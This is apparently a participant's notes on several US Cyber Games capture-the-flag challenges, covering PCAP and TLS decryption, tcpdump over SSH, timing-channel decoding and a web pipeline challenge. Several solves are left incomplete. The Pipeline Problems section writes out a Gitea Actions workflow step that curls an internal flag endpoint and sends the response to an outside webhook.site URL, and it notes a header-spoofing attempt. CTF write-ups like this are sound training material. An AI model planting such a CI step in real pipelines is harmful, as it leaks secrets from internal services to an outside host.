

# Cyber Games Main

Flag type:
`SIVUSCG{xxxxx}`

## Certified

### Task 
```
Certified
100
One of our machines was recently hit with malware and appears to have opened a backdoor. We were able to get this PCAP from around the time when it was accessed but aren't sure what was exfiltrated from the network. Take a look and see if you can make sense of it!

Author: tsuto

https://ctfd.uscybergames.com/files/6f9d8cad46a69ec3408cc68560d9cf64/certified.pcapng?token=eyJ1c2VyX2lkIjoxOTYyLCJ0ZWFtX2lkIjpudWxsLCJmaWxlX2lkIjoyODR9.Zl8ZzQ.CeNN3KtBazLgH3kKEPxxpYsItzM

```

### My Solve

- Given a pcap file we can see there are exports available. We export the backdoor.php files
- take a look into them and see the cert and the RSA keys. 
  - separate the key to into a cert and key.pem (RSA) file 
  - then in wireshark, edit preferences, add the TLS RSA key in. 
  - then follow the TLS stream again and you'll see the message. 

`SIVUSCG{c3rtif1abl3_h4ck3rs}`




## Unravel 

### Task
```
Unravel
331pts
This challenge has several parts. You are given a PCAP which shows how to attack the service provided below. Reverse the attack to gather and decrypt an unravel{} flag, then provide that to the API (/api/submit_flag) to gain the SIVUSCG{} flag to submit here.

Additional details are provided on the index page of the challenge.

https://ctfd.uscybergames.com/files/302e6b0827e0efc5a05ba792c62a4e42/unravel_exploit.pcap

https://uscybercombine-s4-unravel.chals.io/
```

### My Solve 


- burp : https://uscybercombine-s4-unravel.chals.io/ 


## Emoticonsole
### Task 
```
462
Finally, a programming language that is Gen Z approved!

Author: tsuto

https://ctfd.uscybergames.com/files/2a0330a42fa526e85a0e5333b10a8873/program.emo
https://ctfd.uscybergames.com/files/08f708f633199eb11e5113999d3d3d5b/runtime.pyc

```

### My Solve

- used a python decompiler on the .pyc file 


## Ding-O-Tron
```
100
What came first? The ding...or the flag?

https://uscybercombine-s4-web-ding-o-tron.chals.io/

Author: tsuto
```


```
- `wasm2wat ding.wasm -o ding.wat`
- `wat2wasm ding.wat -o ding.ll`
```

`scheduleTimeoutEvent` seems like an important item


Herman note: https://uscybercombine-s4-web-ding-o-tron.chals.io/static/assets/js/main.js


## Tubes Tubes

### Task
```
108
The internet is a series of tubes...

ssh -i id_uscg uscg@tubes.challs.uscybergames.com

https://ctfd.uscybergames.com/files/aa104b91f3aab653308fc7619f3294c8/id_uscg
```

### My Solve

- `ssh -i id_uscg uscg@tubes.challs.uscybergames.com` 
- key not secure enough. change permissions: `chmod 600 id_uscg`
- tcpdump seems like the only binary available for us. `ls /bin /sbin /usr/bin /usr/sbin` 
- once logged in, you'll find the readme that likely hints at focusing on the network. 

```
-bash-5.0$ tcpdump -D
1.ens4 [Up, Running]
2.lo [Up, Running, Loopback]
3.any (Pseudo-device that captures on all interfaces) [Up, Running]
4.bluetooth-monitor (Bluetooth Linux Monitor) [none]
5.nflog (Linux netfilter log (NFLOG) interface) [none]
6.nfqueue (Linux netfilter queue (NFQUEUE) interface) [none]

```

- `tcpdump -i ens4` there's just too much data coming in. so let's grep it for the flag
  - `tcpdump -i ens4 | grep "SIVUSCG"` - nope

  - ens4 interface: too much info. so let's capture it into our own wireshark: `ssh -i id_uscg uscg@tubes.challs.uscybergames.com 'tcpdump -i ens4 -w -' | wireshark -k -i -` 
  - any interface: : `ssh -i id_uscg uscg@tubes.challs.uscybergames.com 'tcpdump -i any -w -' | wireshark -k -i -` 
  - we notice something looks odd on the udp (plus it's sending 1337 that's gotta be the hint). So we listen in on it and then see where that takes us, because it's a bunch of pipes and lines. Maybe this has it. 


ssh -i id_uscg uscg@tubes.challs.uscybergames.com 'tcpdump -i any udp -w -' | wireshark -k -i -


- capture the udp and display as hexdump. it's a vertical message. 

`sivuscg{t0t4lly_tub4l4r}`


## StarTrek 1


### Task 
```
500
You are a remote navigator directing Captain Kirk, who is commanding the USS Enterprise, and Captain Spock, who is commanding the USS Endeavour. Your mission is to guide them on a journey 100 galaxies away to an ancient, advanced civilization known as the "Architects" who have hidden a powerful artifact. This artifact, known as the "Quantum Key," has the potential to unlock new dimensions, granting unparalleled knowledge and power to its possessor...

But your ships' warp drives are limited and as you journey through the galaxies, you discover that some contain ancient portal mechanisms that can instantly transport you to another galaxy. These portals are unpredictable and may send you further ahead (Slipstream Portals) or behind (Wormhole Portals) your current position. Can you strategically navigate these worlds and accomplish your mission on limited fuel?

Author: DrBHacking

hint1: Start by finding the Galaxy Map that shows the location of the portals.

hint2: You may need to strategically use both types of portals! 

https://ctfd.uscybergames.com/files/8130d5cb63b322d2d65b60e551316eb1/startrek

```


### My solve

- open it in binary ninja. 

- set break point for jump
- take note that the functions sub_xxxxxx are dynamically generated. from address: `0x5555555553a1`. we changed `mov edi, eax. ` to `mov edi, 42` (any number works, we just kept it from being random)
- TODO : run the program and find the consistent worm holes and slipstreams.  to reach destination??? X? 


## Encryptomatic

```
176
Our new Encryptomatic tool makes securing your messages a snap!

nc 0.cloud.chals.io 28962

Author: tsuto

https://ctfd.uscybergames.com/files/55023c6fd00287dc6ba70fddc0fd7f4c/main.py?token=eyJ1c2VyX2lkIjoxOTYyLCJ0ZWFtX2lkIjpudWxsLCJmaWxlX2lkIjoyNTN9.ZmLd_A.HVwrQZEZPo-bYOjXyWGzfQMq2tY
```


- tried to pad out the user input to find the flag, but didn't work. 
- TODO: maybe try something other than NC or stiff the network? 


## Timing is Everything


### Task
```
100
Timing is everything....

Author: r0m


https://ctfd.uscybergames.com/files/ebbe8c4961c5e168fb40c2719390cc71/timingiseverything.pcap

```


### My Solve
- opened up in wireshark. saw ICMP messages. 
- take note of the title. "timing"


- so let's look at the timing of the ICMP packets. 


- not much interesting... except there's a pattern between higher than .075s and lower ... when you calculate the timing between each one.
```
0.083, 0.073, 0.086, 0.085, 0.083, 0.067, 0.071, 0.123, 0.084, 0.049,
0.109, 0.049, 0.110, 0.057, 0.095, 0.049, 0.053, 0.095, 0.051, 0.118,
0.051, 0.114, 0.121, 0.116, 0.104, 0.049, 0.110, 0.057, 0.125
```

- could it be morse? from anything above .075 seconds or lower for short and longer for long. 
  - nope turned into gibberish but the word turned into a cool anagram for IRON KINGDOM

- anyways, let's look back at the intervals let's try binary... nope... okay let's try hexadecimal... 
  - I let GPT take this tedious task ... multiply by a thousand then convert to hex. 
```
83, 73, 86, 85, 83, 67, 71, 123, 84, 49,
109, 49, 110, 57, 95, 49, 53, 95, 51, 118,
51, 114, 121, 116, 104, 49, 110, 57, 125 

becomes : 53 49 56 55 53 43 47 7b 54 31 6d 31 6e 39 5f 31 35 5f 33 76 33 72 79 74 68 31 6e 39 7d

```

-BINGO! 

SIVUSCG{T1m1n9_15_3v3ryth1n9}


## Pipeline Problems [web]

### Task
```
321
I've been working on a new project, my new "flag API" which gives out flags on demand. I even have a nice setup for rapid testing and deployment. Can you test it out and see how secure it is?

http://flag-api.challs.uscybergames.com:8000

Author: tsuto
```


### My Solve
first, I opened burp and enumerated the site. nothing seemed weird. 

- until I saw /source response is had Gitea... 
  - TLDR: the repo could be open to the public `Gitea (Git with a cup of tea) is a painless self-hosted Git service written in Go`

- author was tsuto. So I looked him up. found him.
  - `http://git.hackmeto.win/tsuto/flag-api-backend` 

- found in the main.py middleware code: 

```py
@app.middleware('http')
async def trusted_ip_middleware(request: Request, call_next):
    ip = str(request.client.host)

    # Only allow local network to access flag
    if request.scope['path'] == "/get_flag" and ipaddress.ip_address(ip) not in ipaddress.ip_network('10.0.0.0/24'):
        return JSONResponse(content="403 - Forbidden: Access is denied", status_code=403)

    return await call_next(request)
```


- so the subnet mask for their network is `10.0.0.0/24` 
- this means they have an ip that is local to their network
- first we spoof just a `10.0.0.1`, obviously failed, so let's try a burp numbers attack all `2^8`
  - `32 - 24 = 8` therefore `2^8` 0-256 addresses for us to check. 
  - minus 2 because those are broadcast and gateway addresses for the router.
- just tried all addresses with a python script with requests library and `"X-Forwarded-For": ip`. NO LUCK

- let's switch tools. 
  - sqlmap
  - metasploit
  - owasp zap
  - beEF


  - ANDDD.... after much stumbling around. the solution was in the README. Some people forked the code that had gitea action privileges and edited the demo.yaml. I was scouring through their old commits to see what other users were doing and they were just using the yaml to force the /get_flag endpoint
  - adding: `run: curl https://webhook.site/0baeaa9f-a9d6-467c-81fb-648c3e08d010/$(curl http://10.0.0.9:8000/get_flag)` since the gitea site `http://git.hackmeto.win/` is technically on the same network, another fork can curl from it and pass the python middleware network check. 


```
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions 🚀
on: [push]

jobs:
  Explore-Gitea-Actions:
    runs-on: ubuntu-latest
    steps:
      - run: echo "🎉 The job was automatically triggered by a ${{ gitea.event_name }} event."
      - run: echo "🐧 This job is now running on a ${{ runner.os }} server hosted by Gitea!"
      - run: echo "🔎 The name of your branch is ${{ gitea.ref }} and your repository is ${{ gitea.repository }}."
      - name: Check out repository code
        uses: actions/checkout@v3
      - run: echo "💡 The ${{ gitea.repository }} repository has been cloned to the runner."
      - run: echo "🖥️ The workflow is now ready to test your code on the runner."
      - name: List files in the repository
        run: |
          ls ${{ gitea.workspace }}          
      - run: curl https://webhook.site/0baeaa9f-a9d6-467c-81fb-648c3e08d010/$(curl http://10.0.0.9:8000/get_flag)  
      - run: echo "🍏 This job's status is ${{ job.status }}."
```


- checking the status of his gitea actions log... we see the flag

  ```
  curl https://webhook.site/0baeaa9f-a9d6-467c-81fb-648c3e08d010/$(curl http://10.0.0.9:8000/get_flag)
0s
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100    40  100    40    0     0   8169      0 --:--:-- --:--:-- --:--:-- 10000
curl: (3) nested brace in URL position 75:
https://webhook.site/0baeaa9f-a9d6-467c-81fb-648c3e08d010/{"flag":"SIVUSCG{thr0ugh_th3_p1p3l1n3}"}
  ```